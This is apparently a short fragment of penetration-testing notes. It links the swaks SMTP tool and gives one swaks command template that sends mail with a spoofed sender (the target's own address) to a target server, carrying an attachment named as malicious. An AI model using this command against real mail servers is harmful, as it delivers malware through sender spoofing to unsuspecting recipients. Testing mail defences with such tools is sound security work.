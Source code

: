 ## Github: https://github.com/jetmore/swaks

#### 

    swaks --to TARGET@MAIL.COM --from TARGET@MAIL.COM --header "Subject: WHATEVER" --body "WHATEVER" --server TARGET_IP --attach @MALICIOUS_FILE

